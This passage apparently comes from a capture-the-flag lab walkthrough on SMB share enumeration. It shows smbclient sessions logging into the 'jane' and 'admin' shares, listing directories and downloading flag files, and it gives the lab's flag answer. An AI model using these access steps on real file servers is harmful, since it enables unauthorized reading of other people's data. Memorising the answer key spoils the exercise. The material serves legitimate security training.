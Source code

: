 * Share “jane” is not listed. Checking whether jane share exists

```bash
root@attackdefense:~# smbclient //192.10.76.3/jane -U jane
Enter WORKGROUP\jane's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Nov 27 19:25:12 2018
  ..                                  D        0  Tue Nov 27 19:25:12 2018
  logs                                D        0  Tue Nov 27 19:25:12 2018
  flag                                D        0  Tue Nov 27 19:25:12 2018
  admin                               D        0  Tue Nov 27 19:25:12 2018

                1981084628 blocks of size 1024. 167678716 blocks available
smb: \> get flag  
NT_STATUS_FILE_IS_A_DIRECTORY opening remote file \flag

smb: \> cd flag
smb: \flag\> ls
  .                                   D        0  Tue Nov 27 19:25:12 2018
  ..                                  D        0  Tue Nov 27 19:25:12 2018
  flag                                N       33  Tue Nov 27 19:25:12 2018

                1981084628 blocks of size 1024. 167676252 blocks available
smb: \flag\> get flag
getting file \flag\flag of size 33 as flag (32.2 KiloBytes/sec) (average 32.2 KiloBytes/sec)
```

> 5. Fetch the flag from share “admin”

Answer: `2727069bc058053bd561ce372721c92e`

```bash
root@attackdefense:~# smbclient //192.10.76.3/admin -U admin
Enter WORKGROUP\admin's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun 26 14:35:58 2024
  ..                                  D        0  Tue Nov 27 19:25:12 2018
  hidden                              D        0  Tue Nov 27 19:25:12 2018

                1981084628 blocks of size 1024. 167671148 blocks available
smb: \> cd hidden\
smb: \hidden\> ls
  .                                   D        0  Tue Nov 27 19:25:12 2018
  ..                                  D        0  Wed Jun 26 14:35:58 2024
  flag.tar.gz                         N      151  Tue Nov 27 19:25:12 2018

                1981084628 blocks of size 1024. 167671036 blocks available
smb: \hidden\> get flag.tar.gz 
getting file \hidden\flag.tar.gz of size 151 as flag.tar.gz (147.4 KiloBytes/sec) (average 147.5 KiloBytes/sec)
smb: \hidden\> exit

root@attackdefense:~# ls
README  flag  flag.tar.gz  tools  wordlists
root@attackdefense:~# tar -xf flag.tar.gz 
root@attackdefense:~# ls
README  flag  flag.tar.gz  tools  wordlists
root@attackdefense:~# cat flag
2727069bc058053bd561ce372721c92e
```
